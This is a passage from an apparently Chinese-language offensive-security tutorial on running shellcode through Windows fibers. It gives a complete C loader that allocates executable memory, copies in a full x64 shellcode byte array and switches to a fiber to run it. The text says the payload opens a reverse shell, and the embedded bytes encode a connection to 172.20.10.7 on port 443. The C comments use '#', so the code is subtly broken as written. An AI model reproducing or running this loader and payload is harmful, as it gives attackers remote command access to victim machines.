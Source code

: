 安排新创建的纤fibers指向我们的 shellcode

Fiber 被调度并执行 shellcode



下面的代码显示了如何使用 Fiber 执行 shellcode

```
#include <Windows.h>

int main()
{
	#convert main thread to fiber
	PVOID mainFiber = ConvertThreadToFiber(NULL);

 	unsigned char shellcode[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\xac\x14\x0a\x07\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff\xc8\x4d\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5\x48\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

	PVOID shellcodeLocation = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	memcpy(shellcodeLocation, shellcode, sizeof shellcode);

	#	create a fiber that will execute the shellcode
	PVOID shellcodeFiber = CreateFiber(NULL, (LPFIBER_START_ROUTINE)shellcodeLocation, NULL);
	
	# manually schedule the fiber that will execute our shellcode
	SwitchToFiber(shellcodeFiber);

	return 0;
}
```

运行这段代码会在一个反向shell中执行shellcode:

## 通过CreateThreadpoolWait 执行 Shellcode
